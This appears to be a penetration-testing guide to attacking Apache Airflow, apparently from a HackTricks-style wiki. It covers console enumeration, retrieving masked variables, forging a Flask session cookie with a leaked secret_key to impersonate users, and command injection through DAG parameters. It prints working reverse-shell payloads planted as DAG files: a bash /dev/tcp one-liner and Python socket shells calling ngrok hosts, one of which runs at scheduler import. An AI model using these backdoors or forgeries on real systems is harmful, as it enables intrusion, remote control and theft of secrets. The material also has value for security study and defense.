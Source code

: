 # Apache Airflow Security

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) serves as a platform for **orchestrating and scheduling data pipelines or workflows**. The term "orchestration" in the context of data pipelines signifies the process of arranging, coordinating, and managing complex data workflows originating from various sources. The primary purpose of these orchestrated data pipelines is to furnish processed and consumable data sets. These data sets are extensively utilized by a myriad of applications, including but not limited to business intelligence tools, data science and machine learning models, all of which are foundational to the functioning of big data applications.

Basically, Apache Airflow will allow you to **schedule the execution of code when something** (event, cron) **happens**.

### Local Lab

#### Docker-Compose

You can use the **docker-compose config file from** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) to launch a complete apache airflow docker environment. (If you are in MacOS make sure to give at least 6GB of RAM to the docker VM).

#### Minikube

One easy way to **run apache airflo**w is to run it **with minikube**:

```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```

### Airflow Configuration

Airflow might store **sensitive information** in its configuration or you can find weak configurations in place:

[[airflow-configuration.md]]

### Airflow RBAC

Before start attacking Airflow you should understand **how permissions work**:

[[airflow-rbac.md]]

### Attacks

#### Web Console Enumeration

If you have **access to the web console** you might be able to access some or all of the following information:

- **Variables** (Custom sensitive information might be stored here)
- **Connections** (Custom sensitive information might be stored here)
  - Access them in `http://<airflow>/connection/list/`
- [**Configuration**](#airflow-configuration) (Sensitive information like the **`secret_key`** and passwords might be stored here)
- List **users & roles**
- **Code of each DAG** (which might contain interesting info)

#### Retrieve Variables Values

Variables can be stored in Airflow so the **DAGs** can **access** their values. It's similar to secrets of other platforms. If you have **enough permissions** you can access them in the GUI in `http://<airflow>/variable/list/`.\
Airflow by default will show the value of the variable in the GUI, however, according to [**this**](https://marclamberti.com/blog/variables-with-apache-airflow/) it's possible to set a **list of variables** whose **value** will appear as **asterisks** in the **GUI**.

![[../../images/image (164).png]]

However, these **values** can still be **retrieved** via **CLI** (you need to have DB access), **arbitrary DAG** execution, **API** accessing the variables endpoint (the API needs to be activated), and **even the GUI itself!**\
To access those values from the GUI just **select the variables** you want to access and **click on Actions -> Export**.\
Another way is to perform a **bruteforce** to the **hidden value** using the **search filtering** it until you get it:

![[../../images/image (152).png]]

#### Privilege Escalation

If the **`expose_config`** configuration is set to **True**, from the **role User** and **upwards** can **read** the **config in the web**. In this config, the **`secret_key`** appears, which means any user with this valid they can **create its own signed cookie to impersonate any other user account**.

```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```

#### DAG Backdoor (RCE in Airflow worker)

If you have **write access** to the place where the **DAGs are saved**, you can just **create one** that will send you a **reverse shell.**\
Note that this reverse shell is going to be executed inside an **airflow worker container**:

```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
    dag_id='rev_shell_bash',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = BashOperator(
        task_id='run',
        bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
    )
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
    s = socket.socket()
    s.connect((rhost, port))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")

with DAG(
    dag_id='rev_shell_python',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = PythonOperator(
        task_id='rs_python',
        python_callable=rs,
        op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
    )
```

#### DAG Backdoor (RCE in Airflow scheduler)

If you set something to be **executed in the root of the code**, at the moment of this writing, it will be **executed by the scheduler** after a couple of seconds after placing it inside the DAG's folder.

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
    s = socket.socket()
    s.connect((rhost, port))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
    dag_id='rev_shell_python2',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = PythonOperator(
        task_id='rs_python2',
        python_callable=rs,
        op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```

#### DAG Creation

If you manage to **compromise a machine inside the DAG cluster**, you can create new **DAGs scripts** in the `dags/` folder and they will be **replicated in the rest of the machines** inside the DAG cluster.

#### DAG Code Injection

When you execute a DAG from the GUI you can **pass arguments** to it.\
Therefore, if the DAG is not properly coded it could be **vulnerable to Command Injection.**\
That is what happened in this CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

All you need to know to **start looking for command injections in DAGs** is that **parameters** are **accessed** with the code **`dag_run.conf.get("param_name")`**.

Moreover, the same vulnerability might occur with **variables** (note that with enough privileges you could **control the value of the variables** in the GUI). Variables are **accessed with**:

```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```

If they are used for example inside a a bash command, you could perform a command injection.

